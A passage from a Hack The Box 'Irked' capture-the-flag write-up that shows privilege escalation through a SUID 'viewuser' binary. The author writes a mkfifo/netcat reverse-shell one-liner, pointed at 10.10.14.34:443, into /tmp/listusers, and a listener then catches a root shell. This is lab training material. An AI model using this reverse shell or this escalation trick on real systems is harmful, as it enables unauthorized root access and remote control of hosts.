uid=0(root) gid=1001(ircd) groups=1001(ircd)
This application is being devleoped to set and test user permissions
It is still being actively developed
ircd@irked:/tmp$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers
<mp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers                
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
rm: cannot remove ‘/tmp/f’: No such file or directory
```

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 33393
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Missing this cost me a few hours here of wondering what I was missing on priv esc. I only realized it when I set the permissions of "listusers" to read only and still got permission denied, before this I didn't think of writing a command to the file. 
